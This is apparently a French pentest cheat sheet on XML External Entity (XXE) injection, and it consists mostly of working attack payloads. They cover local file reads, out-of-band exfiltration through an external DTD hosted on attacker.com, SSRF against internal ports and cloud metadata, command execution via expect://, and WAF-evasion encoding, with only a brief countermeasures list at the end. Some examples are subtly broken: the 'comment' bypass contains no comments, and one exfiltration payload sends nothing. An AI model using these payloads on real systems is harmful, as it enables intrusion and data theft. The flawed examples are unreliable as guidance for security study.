

L'injection **XXE** (XML External Entity) exploite une configuration vulnérable des parsers XML pour permettre la lecture de fichiers locaux (**LFI**), l'exécution de requêtes côté serveur (**SSRF**) ou l'exécution de code à distance (**RCE**).



## Détection de la Vulnérabilité XXE

### Test d'injection basique
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>&xxe;</root>
```

### Test d'XXE Blind
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/log?data=test"> ]>
<root>&xxe;</root>
```

### Test des entités intégrées
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe "TEST XXE"> ]>
<root>&xxe;</root>
```

## Différences entre parsers XML (libxml2, Xerces, etc.)

Le comportement face aux entités dépend du moteur de parsing sous-jacent.

| Parser | Comportement par défaut | Risque |
| :--- | :--- | :--- |
| **libxml2** | Entités externes activées (souvent) | Élevé (LFI/SSRF) |
| **Xerces (Java)** | Nécessite configuration explicite | Variable selon version |
| **MSXML** | Dépend de la version .NET | Élevé si non patché |

[!warning]
La configuration du parser est souvent globale à l'application. Une bibliothèque peut être sécurisée tandis qu'une autre utilisée dans le même projet reste vulnérable.

## Encodage des payloads (UTF-7, etc.)

Si le WAF bloque les caractères spéciaux (`<`, `>`, `&`), l'encodage peut contourner les signatures.

```bash
# Exemple d'encodage UTF-7 via iconv
echo -n '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>' | iconv -f UTF-8 -t UTF-7
```

## Bypass de filtres (WAF/WAF Evasion)

Les WAF cherchent souvent des signatures comme `DOCTYPE` ou `SYSTEM`.

- **Utilisation d'encodage** : Passer en UTF-16 ou UTF-7.
- **Commentaires XML** : Insérer des commentaires pour fragmenter les mots-clés : `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>`
- **CDATA** : Utiliser des sections CDATA pour masquer les entités.

## OOB (Out-of-Band) technique détaillée (DTD externe)

Pour exfiltrer des fichiers volumineux ou contourner l'absence de réponse directe, on utilise une DTD externe hébergée sur un serveur contrôlé.

1. **Fichier `evil.dtd` sur le serveur attaquant** :
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%error;
```

2. **Payload XML envoyé à la cible** :
```xml
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">
  %remote;
]>
<root>test</root>
```

[!danger] Critique : L'exfiltration de données via DTD externe nécessite que le serveur cible puisse initier une connexion sortante vers l'attaquant.

## Lecture de Fichiers Sensibles (LFI via XXE)

| Cible | Payload |
| :--- | :--- |
| Linux `/etc/passwd` | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` |
| Windows `win.ini` | `<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">` |
| PHP Config | `<!ENTITY xxe SYSTEM "file:///var/www/html/config.php">` |
| Logs Apache | `<!ENTITY xxe SYSTEM "file:///var/log/apache2/access.log">` |

## XXE Blind + Exfiltration de Données

> [!danger] Critique
> L'exfiltration de données via DTD externe nécessite que le serveur cible puisse initier une connexion sortante vers l'attaquant.

### Exfiltration via serveur externe
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <data>&xxe;</data>
  <send><![CDATA[http://attacker.com/log?data=&xxe;]]></send>
</root>
```

## SSRF via XXE

> [!tip] Astuce
> Toujours tester le support des entités XML avant de tenter une exfiltration complexe.

### Scan de ports internes
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1:22"> ]>
<root>&xxe;</root>
```

### Exploitation des métadonnées Cloud
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>
<root>&xxe;</root>
```

## XXE vers RCE (Remote Code Execution)

> [!danger] Attention
> L'utilisation de **expect://** nécessite l'extension PHP 'expect' qui est rarement activée par défaut. L'injection via **php://input** peut écraser des fichiers ou provoquer un déni de service si mal utilisée.

### Lecture de fichiers via wrappers PHP
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=config.php"> ]>
<root>&xxe;</root>
```

### Exécution de commandes
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "expect://id"> ]>
<root>&xxe;</root>
```

## Automatisation et Détection

### Outils d'exploitation
```bash
nuclei -t vulnerabilities/xxe/

python3 xxe-injector.py -u "http://target.com/vuln.xml"
```

### Metasploit
```bash
use auxiliary/scanner/http/xxe
set RHOSTS target.com
set RPORT 80
run
```

## Sécurité & Contre-Mesures

### Configuration sécurisée
- Désactiver les entités externes : `libxml_disable_entity_loader(true);`
- Utiliser des bibliothèques sécurisées : **defusedxml**
- Filtrer les entrées utilisateur pour interdire les mots-clés `SYSTEM` ou `&`
- Surveiller les logs via `tail -f /var/log/apache2/access.log`
- Déployer un **WAF** (ex: **ModSecurity**)

Ces techniques sont étroitement liées aux concepts de **SSRF**, **LFI**, **Blind Exploitation**, **Web Application Enumeration** et **Cloud Metadata Exploitation**.